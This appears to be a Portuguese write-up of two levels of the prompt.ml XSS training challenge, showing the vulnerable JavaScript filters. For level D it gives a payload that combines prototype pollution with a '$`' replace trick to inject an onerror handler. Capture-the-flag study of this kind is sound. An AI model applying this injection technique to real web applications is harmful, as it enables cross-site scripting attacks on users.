 ## level D
```javascript
 function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}
```
Filtro: Remove `source` inválido. Strip de aspas em `config.source`.

Resposta ```{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}```
 
Nesse nível devemos enviar um JSON com um source propositalmente inválido e um outro dentro de `__proto__`. O filtro remove o source inválido, sobrando só o do protótipo. Usa o poder de herança pra “injetar” código onde antes só era permitido texto simples. Finalmente, engana o .replace(/"/g,'') usando o $`` do replace, montando um onerror` sem precisar de aspas.




## level F
```javascript
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```
Filtro: remove `*`, segmenta a entrada por `#` e limita cada título a 15 caracteres.
